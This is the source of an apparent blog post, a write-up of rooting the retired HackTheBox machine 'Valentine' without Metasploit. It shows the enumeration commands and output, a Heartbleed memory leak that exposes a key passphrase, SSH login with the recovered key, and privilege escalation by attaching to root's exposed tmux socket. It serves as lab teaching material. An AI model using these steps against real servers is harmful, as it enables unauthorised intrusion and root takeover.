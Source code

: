 ```yaml
---
layout: post
title: "Writeup: HackTheBox Valentine - NO Metasploit"
description: "Rooting Valentine without using Metasploit."
tags: pentest hackthebox writeup
---
```


This series will follow my exercises in [HackTheBox][].
All published writeups are for retired HTB machines.
Whether or not I use Metasploit to pwn the server will be indicated in the title.
 
# Valentine

_<small>Difficulty: Easy</small>_

_<small>Machine IP: 10.10.10.79</small>_

I kick things off with a port scan.

```bash
sudo nmap -T4 -p- 10.10.10.79
[sudo] password for artis3n: 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-21 14:07 EDT
Nmap scan report for 10.10.10.79
Host is up (0.015s latency).
Not shown: 65532 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 18.41 seconds
```

```bash
sudo nmap -T4 -sC -sV -p 22,80,443 10.10.10.79
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-21 14:08 EDT
Nmap scan report for 10.10.10.79
Host is up (0.051s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 96:4c:51:42:3c:ba:22:49:20:4d:3e:ec:90:cc:fd:0e (DSA)
|   2048 46:bf:1f:cc:92:4f:1d:a0:42:b3:d2:16:a8:58:31:33 (RSA)
|_  256 e6:2b:25:19:cb:7e:54:cb:0a:b9:ac:16:98:c6:7d:a9 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Not valid before: 2018-02-06T00:45:25
|_Not valid after:  2019-02-06T00:45:25
|_ssl-date: 2020-06-21T18:14:44+00:00; +5m46s from scanner time.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: 5m45s
                                                                                                                 
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                   
Nmap done: 1 IP address (1 host up) scanned in 15.06 seconds
```

All right, a web server.
[gobuster][] identifies several top-level endpoints worth digging into.

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -u http://10.10.10.79/
===============================================================                                                  
Gobuster v3.0.1                                                                                                  
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)                                                  
===============================================================                                                  
[+] Url:            http://10.10.10.79/
[+] Threads:        30
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/06/21 14:16:12 Starting gobuster
===============================================================
/dev (Status: 301)
/index (Status: 200)
/encode (Status: 200)
/decode (Status: 200)
/omg (Status: 200)
/server-status (Status: 403)
===============================================================
2020/06/21 14:18:35 Finished
===============================================================
```

`https://10.10.10.79/dev/` presents a directory list with a key and a note.

![dev dirlist][]

`https://10.10.10.79/dev/notes.txt` displays:

> To do:
>
> 1) Coffee.
>
> 2) Research.
>
> 3) Fix decoder/encoder before going live.
>
> 4) Make sure encoding/decoding is only done client-side.
>
> 5) Don't use the decoder/encoder until any of this is done.
>
> 6) Find a better way to take notes.

Don't use the encoder, huh?
`https://10.10.10.79/encode` takes input and presents base64-encoded content.
These are also PHP pages vulnerable to XSS, but that is less relevant for our purposes.

`https://10.10.10.79/dev/hype_key` appears to be a base64-encoded encrypted RSA key.
I put it into [CyberChef][] to decode it, but I suppose I could have use the `/decode` endpoint.

![hype decoded][]

I use [sslyze][] to check the SSL configuration of the web server.

```bash
sslyze --regular 10.10.10.79
```

It appears that the server is vulnerabe to [Heartbleed][].

```
 * SSL 2.0 Cipher suites:
     Attempted to connect using 7 cipher suites; the server rejected all cipher suites.

 * OpenSSL Heartbleed:
                                          VULNERABLE - Server is vulnerable to Heartbleed

 * OpenSSL CCS Injection:
                                          VULNERABLE - Server is vulnerable to OpenSSL CCS injection
```

I can confirm this with a heartbleed nmap NSE script:

```bash
artis3n@kali-pop:~/shares/htb/valentine$ ls /usr/share/nmap/scripts/* | grep heartbleed
/usr/share/nmap/scripts/ssl-heartbleed.nse
```

`nmap` confirms the server is vulnerable.

```bash
nmap --script ssl-heartbleed 10.10.10.79
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-21 15:00 EDT
Nmap scan report for 10.10.10.79
Host is up (0.011s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
| ssl-heartbleed: 
|   VULNERABLE:
|   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.
|           
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160
|       http://cvedetails.com/cve/2014-0160/
|_      http://www.openssl.org/news/secadv_20140407.txt 

Nmap done: 1 IP address (1 host up) scanned in 0.92 seconds
```

Hearbleed allows stealing information from memory on the target server.
I grabbed [this Heartbleed PoC][heartbleed poc] and am able to extract data from memory.
The output is long but it includes this section:

```
00b0: 0A 00 16 00 17 00 08 00 06 00 07 00 14 00 15 00  ................
00c0: 04 00 05 00 12 00 13 00 01 00 02 00 03 00 0F 00  ................
00d0: 10 00 11 00 23 00 00 00 0F 00 01 01 30 2E 30 2E  ....#.......0.0.
00e0: 31 2F 64 65 63 6F 64 65 2E 70 68 70 0D 0A 43 6F  1/decode.php..Co
00f0: 6E 74 65 6E 74 2D 54 79 70 65 3A 20 61 70 70 6C  ntent-Type: appl
0100: 69 63 61 74 69 6F 6E 2F 78 2D 77 77 77 2D 66 6F  ication/x-www-fo
0110: 72 6D 2D 75 72 6C 65 6E 63 6F 64 65 64 0D 0A 43  rm-urlencoded..C
0120: 6F 6E 74 65 6E 74 2D 4C 65 6E 67 74 68 3A 20 34  ontent-Length: 4
0130: 32 0D 0A 0D 0A 24 74 65 78 74 3D 61 47 56 68 63  2....$text=aGVhc
0140: 6E 52 69 62 47 56 6C 5A 47 4A 6C 62 47 6C 6C 64  nRibGVlZGJlbGlld
0150: 6D 56 30 61 47 56 6F 65 58 42 6C 43 67 3D 3D C8  mV0aGVoeXBlCg==.
0160: 2D 4C E2 FD EC 2F 4F 57 3D 84 67 64 C3 DA A9 8F  -L.../OW=.gd....
```

Grabbing that `$text` value and base64-decoding it results in what I guess is the password to the RSA key:

```
aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==

heartbleedbelievethehype
```

Using this as the password for the RSA key, I am able to SSH onto the box.
I don't know what user, but since the key is called `hype_key`, I use `hype` as the user.

```bash
ssh -i hype_key hype@10.10.10.79
load pubkey "hype_key": invalid format
Enter passphrase for key 'hype_key': 
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Fri Feb 16 14:50:29 2018 from 10.10.14.3
hype@Valentine:~$
```

Looks good!
I can grab the user flag.

`ps aux` shows that the `root` user is running a [tmux][] session.

![ps aux][]

```bash
root       1005  0.0  0.1  26416  1676 ?        Ss   11:11   0:01 /usr/bin/tmux -S /.devs/dev_sess
```

`man tmux` lets me know that `-S` is the socket path.

```
   -S socket-path
                 Specify a full alternative path to the server socket.  If -S is specified, the default
                 socket directory is not used and any -L flag is ignored.
```

If I look at this file, I see that the `hype` user is able to access the tmux socket and it has the `SUID` bit set.

![tmux socket dir][]

I should be able to connect `tmux` to this session and obtain a root shell.

```bash
tmux -S /.devs/dev_sess
```

![tmux root][]

I am now root and can collect the root flag.

[cyberchef]: https://gchq.github.io/CyberChef/
[gobuster]: https://github.com/OJ/gobuster
[hackthebox]: https://www.hackthebox.eu
[heartbleed]: https://heartbleed.com/
[heartbleed poc]: https://github.com/sensepost/heartbleed-poc/blob/master/heartbleed-poc.py
[sslyze]: https://tools.kali.org/information-gathering/sslyze
[tmux]: https://github.com/tmux/tmux/wiki

[dev dirlist]: /assets/img/htb/valentine/dev-dir-list.png
[hype decoded]: /assets/img/htb/valentine/dev-hype-key-decoded.png
[ps aux]: /assets/img/htb/valentine/ps-aux-root-tmux.png
[tmux root]: /assets/img/htb/valentine/tmux-root.png
[tmux socket dir]: /assets/img/htb/valentine/tmux-directory-permissions.png
